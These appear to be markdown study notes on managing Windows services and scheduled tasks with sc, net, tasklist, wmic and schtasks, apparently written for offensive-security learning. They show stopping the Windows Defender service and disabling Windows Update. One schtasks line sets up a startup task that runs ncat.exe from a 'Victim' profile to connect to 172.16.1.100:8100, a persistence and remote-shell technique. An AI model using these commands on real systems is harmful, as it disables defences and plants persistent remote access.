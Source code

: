 # Managing Services

- Service Controller:
  - `sc query type= service` >> to *list all the running services*
  - `sc query windefend`     >> to query specific service
  - `sc stop windefend`      >> to *stop* the specific service
  - `sc start windefend`     >> to *start* the specific service
- Modify Services:
  - To configure services, we use `config` parameter in *sc*
  - Disabling Windows Updates
    - `wuauserv` >> Windows Update Service
    - `bits`     >> Background Intelligence Transfer Service

    - `sc query wuauserv`                   >> to see the status
    - `sc stop wuauserv`                    >> to stop the service
    - `sc config wuauserv start= disabled`  >> to disable the service/ modify configurations

    - Now, the services are disabled, if you start them again, they won't start since you changed the configurations
    - `sc config wuauserv start= auto`      >> to revert everything back to normal

    - `sc config` command modifies the service's configuration in the Windows Registry, making the change permanent after the reboot

- Other Ways To Query Services:
  - `tasklist`
    - `tasklist /svc` >> to see a list of the processes *genial*
  - `net start` >> to see the list of the proceses
    - `net stop <service_name>`
    - `net pause <service_name>`
    - `net continue <service_name>`

  - `WMIC`: Windows Management Instrumention Command
    - `wmic service list brief` >> to see the through list of all processes: running & not running even

# Working With Scheduled Tasks

- Commands:
  - `schtasks /query /v /fo list`
  - `schtasks /create /sc ONSTART /tn "name_of_the_task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`
  - `schtasks /change /tn "name_of_the_task" /ru administrator /rp "password_of_the_account"`
  - `schtasks /query /tn "name_of_the_task" /v /fo list`
    - `/v` >> sets verbosity to on
    - `/fo` >> sets formatting options: list, table, csv
    - `tn` >> sets the name
    - `tr` >> sets the trigger and task to be run
    - `sc` >> sets the schedule
